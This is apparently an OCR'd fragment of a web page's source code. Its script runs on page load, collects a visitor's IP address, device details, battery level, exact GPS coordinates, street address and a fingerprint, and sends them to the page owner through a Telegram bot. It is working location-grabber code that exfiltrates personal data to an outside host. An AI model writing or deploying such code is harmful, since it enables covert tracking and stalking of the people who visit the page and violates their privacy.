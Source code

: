       const message = `📍 *New Location Update* 🎯
👤 *Device Info:*
• IP: ${ip}
• Platform: ${navigator.platform}
• Android: ${androidVersion}
• Language: ${language}
• Resolution: ${resolution}
• Timezone: ${timezone}
• Online: ${isOnline}
• RAM: ${deviceMemory}GB
• CPU: ${cpuCores} cores
• Battery: ${batteryInfo.level} (${batteryInfo.charging})

📍 *Location Details:*
• Latitude: ${locationData.latitude}
• Longitude: ${locationData.longitude}
• Accuracy: ${locationData.accuracy}
• Address: ${locationData.road}, ${locationData.village}
• City: ${locationData.city}, ${locationData.province}
• Country: ${locationData.country}
• Postal: ${locationData.postcode}

🌤️ *Weather:* ${weather} ${temperature}
🕐 *Time:* ${clock}
🔐 *Fingerprint:* ${fingerprint}`;

      // Send to Telegram with better error handling
      try {
        const response = await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
          method: "POST",
          headers: { 
            "Content-Type": "application/json",
            "Accept": "application/json"
          },
          body: JSON.stringify({
            chat_id: OWNER_CHAT_ID,
            text: message,
            parse_mode: "Markdown"
          })
        });

        if (!response.ok) {
          const errorData = await response.json();
          console.error('Telegram API Error:', errorData);
          document.getElementById('status').textContent = '❌ Gagal mengirim ke Telegram: ' + (errorData.description || 'Unknown error');
        } else {
          document.getElementById('status').textContent = '✅ Data berhasil dikirim ke Telegram!';
        }
      } catch (error) {
        console.error('Failed to send to Telegram:', error);
        document.getElementById('status').textContent = '❌ Gagal mengirim ke Telegram: ' + error.message;
      }
    }

    // Start tracking when page loads
    getVisitorInfo();
  </script>
</body>
</html>
